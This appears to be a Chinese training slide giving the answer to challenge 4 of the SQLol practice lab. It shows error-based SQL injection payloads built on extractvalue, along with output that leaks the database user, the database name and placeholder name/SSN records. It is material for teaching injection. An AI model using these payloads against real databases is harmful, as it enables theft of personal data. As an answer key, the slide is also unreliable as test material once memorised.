

# SQL注入实例 – SQLol（4）答案
1. 查找数据库
' and (extractvalue(1, concat(0x7e,(select concat_ws(char(32,58,32),user(),database()))))) and '1'='1
XPATH syntax error: '~pte@localhost : sqlol'
2. 显示所有字段
' and (extractvalue(1, concat(0x7e,(select concat_ws(char(32,58,32),name , ssn ) from ssn LIMIT 1 OFFSET 1)))) and '1'='1 #
ATH syntax error: '~Wengdack Slobdegoob : 000-00-1112'
XPATH syntax error: '~Herp Derper : 012-34-5678'
XPATH syntax error: '~ Peter Weiner : 111-22-3333'
XPATH syntax error: '~ Chunk MacRunfast : 666-67-6776'
XPATH syntax error: '~ SlapdeBack LovedeFace : 999-99-9999'